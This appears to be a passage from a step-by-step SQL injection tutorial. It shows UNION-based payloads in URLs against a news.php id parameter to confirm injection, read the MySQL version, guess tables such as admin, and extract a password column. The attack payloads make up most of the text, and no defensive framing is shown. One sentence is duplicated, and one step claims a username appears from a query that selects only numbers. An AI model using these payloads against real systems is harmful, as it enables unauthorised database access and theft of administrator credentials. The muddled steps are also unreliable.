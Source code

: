 With the union, we can select more data in one SQL statement. So we have:

```html
http://server/news.php?id=5 union all select 1,2,3
```

If we see some numbers on screen i.e 1 or 2 or 3 then the UNION Works.

### Check for MySQL Version

```html
http://server/news.php?id=5 union all select 1,2,3/*
```

**NOTE:** If \* not working or you get some error, then try "-" it's a comment and it's important for our query to work properly.

Let say that we have number 2 on the screen, now to check for the version we replace the number 2 with @@version or version() and get something like 4.1.33-log or 5.0.45 or similar.

```html
http://server/news.php?id=5 union all select 1,@@version,3/*
```

If you get an error "union + illegal mix of collations (IMPLICIT + COERCIBLE) ...", what you will need to do is to use the **convert()** function as per the below example.

**Example**

```html
http://server/news.php?id=5 union all select 1,convert(@@version using latin1),3/*
```

Or with **hex()** and **unhex()**

**Example**

```html
http://server/news.php?id=5 union all select 1,unhex(hex(@@version)),3/*
```

And you will get MySQL version

### Getting Table and Column Names

Well if the MySQL version is < 5 (example, 4.1.33, 4.1.12...), we must guess table and column name in most cases. Common table names are: user/s, admin/s, member/s. Common table names are: user/s, admin/s, member/s. Common column names are username, user, usr, user\_name, password, pass, passwd, pwd etc...

**Example**

```html
http://server/news.php?id=5 union all select 1,2,3 from admin/*
```

We see number 2 on the screen like before, and that's good. We get username displayed on the screen, an example would be admin, or superadmin etc...

Now to check if the column password exists.

```html
http://server/news.php?id=5 union all select 1,password,3 from admin/*
```
